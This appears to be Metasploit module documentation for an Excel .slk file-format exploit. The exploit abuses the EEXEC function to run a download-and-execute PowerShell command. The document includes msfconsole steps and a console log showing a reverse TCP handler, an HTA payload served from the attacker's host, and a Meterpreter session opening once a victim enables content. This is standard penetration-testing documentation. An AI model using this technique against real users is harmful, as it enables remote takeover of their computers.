 ## Introduction

The .slk file format used by Microsoft Excel has the ability to execute local commands via the `EEXEC(cmd)` function. 
This module takes advantage of this 'feature' to run a download-and-execute powershell command in order to spawn a session
on the target.

## Vulnerable Application

  Microsoft Excel (tested on Excel 2016)

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/office_excel_slk`
3. `set LHOST [IP]`
4. `set SRVHOST [IP]`
5. `run`
6. Open generated file and press 'Enable Content' in Excel

## Options

  **FILENAME**

  The name of the generated .slk file. Default is a randomly generated file name.

## Scenarios

### Microsoft Excel 2016 on Windows 10 Build 17763.288

  ```
  msf > use exploit/windows/fileformat/office_excel_slk
  msf exploit(office_excel_slk) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(office_excel_slk) > set lhost 192.168.146.1
  lhost => 192.168.146.1
  msf exploit(office_excel_slk) > set srvhost 192.168.146.1
  srvhost => 192.168.146.1
  msf exploit(office_excel_slk) > run
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 192.168.146.1:4444
  [+] msf.doc stored at /Users/carter/.msf4/local/msf.slk
  [*] Using URL: http://192.168.146.1:8080/default.hta
  [*] Server started.
  ```
  
  Once the victim opens the file and clicks 'Enable Content' a session should spawn:

  ```
  [*] Sending stage (957487 bytes) to 192.168.146.145
  [*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2019-01-13 16:00:49 -0500
  ```
